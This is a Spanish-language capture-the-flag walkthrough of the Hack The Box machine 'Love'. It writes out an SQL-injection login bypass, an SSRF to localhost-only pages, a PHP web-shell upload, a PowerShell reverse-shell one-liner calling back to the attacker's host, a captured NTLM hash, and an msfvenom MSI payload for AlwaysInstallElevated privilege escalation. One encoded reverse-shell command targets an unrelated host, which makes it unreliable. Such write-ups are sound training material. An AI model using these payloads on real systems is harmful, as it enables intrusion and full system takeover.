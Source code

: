 # 10.10.10.239 - Love

![Love](https://user-images.githubusercontent.com/96772264/197388747-319cf1cf-6a22-4e92-aecf-e255da52f783.png)

-------------------

# Parte 1 - Reconocimiento

Tenemos abiertos los puertos: 80 (http) ,135(rpc),139(smb tambien),443,445(smb),3306(sql),5000,5040,5985,5986,7680

### Nmap -> escaneo de servicios

```sudo nmap -sCV -T5 -p443,445,3306,5000,5040,5985,5986,7680 10.10.10.239```
Las conclusiones que nos da Nmap son estas:
- El puerto 443 da error 403 Forbidden, pero es un Apache 2.4.46 con PHP 7.3.27.
- Tenemos el dominio staging.love.htb y la empresa se llama *ValentineCorp*
- Por smb tenemos que el sistema se llama LOVE y el Workgroup es WORKGROUP
- Puerto 5000, lo mismo que en el 443, error 403 y Apache 2.4.46/PHP 7.3.27.
 

### Puerto 80:
```console
└─$ whatweb http://10.10.10.239
http://10.10.10.239 [200 OK] Apache[2.4.46], Bootstrap, Cookies[PHPSESSID], OpenSSL/[1.1.1j] PHP[7.3.27], IP[10.10.10.239], JQuery, PasswordField[password], Script, Title[Voting System using PHP]
```
### Puerto 445 y 139:

No podemos acceder sin creds a ninguno.
```console
└─$ smbclient -L 10.10.10.239 -N 
session setup failed: NT_STATUS_ACCESS_DENIED
└─$ rpcclient -U "" 10.10.10.239 -N
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```
### Puerto 443 
La web da forbidden, pero al tener ssl ```openssl s_client -connect love.htb:443``` obtenemos el mail de ```roy@love.htb```  
```rpcclient -U "roy" 10.10.10.239 -N # NT_STATUS_LOGON_FAILURE```   
Pero intentar bruteforcear la contraseña no da resultado: ```crackmapexec smb 10.10.10.239 -u "roy" -p /usr/share/wordlists/rockyou.txt```  

-------------------------

# Parte 2: Explotación web

![lovehtb_1](https://user-images.githubusercontent.com/96772264/197388800-902b1bae-7d9a-4ee9-b064-95ab048cdd3a.PNG)


Como esto bien decia, la web http://10.10.10.239 / http://love.htb tiene el formulario este de "php voting system".  
Peticion -> ```POST a /login.php voter=123&password=123&login= PHPSESSID="8uonobi5kr3p0cvm2hir2o2g63" ``` 
Nos ha dado que "Cannot find voter with the ID" cosa que me incita a fuzzear este mismo.  

```console
└─$ hydra -L ./numbers.txt -p test love.htb https-post-form "/login.php:voter=^USER^&password=^PASS^:F=Cannot find voter with the ID" 
```
Pero tras un rato nada.  

En la seccion de comentarios hay ```<!-- WARNING: Respond.js doesn't work if you view the page via file:// -->``` Pero la ruta "/js/Respond.js" da error 404.  

Como no he podido fuzzear el Voting System (y para la ruta staging tambien), queda buscarle en el searchsploit.  
```searchsploit Voting System``` Hay varios para autenticarse mediante SQLI, uno de ellos dice de poner ```admin:' or ''='``` a */admin* pero no dio resultado.
En cambio otro mas largo (php/webapps/49483.txt) Si va:  
```login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -```

Lo del medio que envia parece un formato de hash a juzgar por los "$". Una vez en la web del Voting system tenemos que el usaurio se llama "Neovic Devierte" 
(puede que nos sirva para los otros servicios).  

![lovehtb_2](https://user-images.githubusercontent.com/96772264/197388822-dfcecd45-a2bf-449d-b0dc-9a3128dcfebf.PNG)

Hay otro exploit (49486.txt) que habla de un file upload en /candidates.php, no esta nada sanitizado, pero si intento subir algo me da problemas con *Position*.     

![lovehtb_3](https://user-images.githubusercontent.com/96772264/197388834-55fac078-1160-46fb-90d0-008d2d35d63c.PNG)

En staging.love.htb hay un campo para peticiones. Si le pido que se la haga a mi servidor me responde  

![lovehtb_4](https://user-images.githubusercontent.com/96772264/197388841-1fa009bb-4a4f-401b-b5ba-febcf8b73caf.PNG)

```console
└─$ sudo python3 -m http.server   
[sudo] password for cucuxii:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.239 - - [23/Oct/2022 10:56:37] "GET / HTTP/1.1" 200 -
10.10.10.239 - - [23/Oct/2022 10:59:11] "GET /shell.php HTTP/1.1" 200 -
```

Pero el php no lo interpreta.   
Si se lo pido al loscalhost me sale el formulatio del Voting System. Teniamos varias paginas Forbidden.  

La web del puerto 443 no me deja verla ```http://127.0.0.1:443 o https://127.0.0.1:443``` Pero la del 5000 si. Nos dan las creds "admin:@LoveIsInTheAir!!!!"  
Con el puerto 80 dichas creds nos llevan a la web de antes (que seguimos teniendo problema con subir el Candidato)  

![lovehtb_5](https://user-images.githubusercontent.com/96772264/197388860-915adddc-f7f3-4fc5-8ac4-f873ffa98392.PNG)

Tampoco nos sirven para el smb ni para admin ni para roy.  

En la web aparte de subir Candidatos puedes subir Votantes, ahí no hay ningun campo que nos de problemas.  
Subí el cmd.php y en la lista de Votantes me salió la foto (obviamente como es un shell.php no se muestra tal)  

![lovehtb6](https://user-images.githubusercontent.com/96772264/197388876-34ff9dc0-cad2-4dbe-9f14-9dcc5051c6ec.PNG)

-------------------------

# Parte 3: Accediendo al sistema

¿Pero donde está la backdoor? Como se subió en el campo de *foto*, al darle a *copy image location*   
```http://love.htb/images/shell.php?cmd=whoami```

Como tenemos ejecucion remota de comandos, ahora solo tenemos que ejecutar una reverse shell (y escuchar por netcat).  

La reverse shell seria esta:
```console
curl -s -X POST -d "powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.15%27%2C443%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22" http://gitserver.thm/web/exploit.php
```
Esto es la version urlencodeada de un [oneliner de powerhsell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3):  
```powershell
*powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"*
```
Nos ponemos en escucha por el netcat.  
```console
└─$ sudo nc -nlvp 443
whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> 
```
```console
└─$ impacket-smbserver carpeta $(pwd) -smb2support
[*] Phoebe::LOVE:aaaaaaaaaaaaaaaa:f61b6d088db119ce592bb4d0a56f709b:010100000000000000718863cde6d8019d6b0265e2c0f8150000000001001000730065006a00720067004f004c006c0003001000730065006a00720067004f004c006c000200100053005200610071005900410051004d000400100053005200610071005900410051004d000700080000718863cde6d80106000400020000000800300030000000000000000000000000200000dc7b78e8b0b71bd6254ed079cc9343e57d00d68f7334579eb372fe74b4607ffe0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310035000000000000000000

PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\enumeracion_windows.bat . 
```
-------------------------

# Parte 4: Explotado Always Install Elevated

Nuestro [script](https://github.com/CUCUxii/win_enum/blob/main/enumeracion_windows.bat) nos dice que:  
- Usuarios: Administrator, Phoebe  
- El always Install elevated está activado 

La manera de explotar esto es:  
```console
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=666 -f msi -o reverse.msi
Saved as: reverse.msi
PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\reverse.msi .
msiexec /quiet /qn /i C:\xampp\htdocs\omrs\images\reverse.msi
└─$ sudo nc -nlvp 666
C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

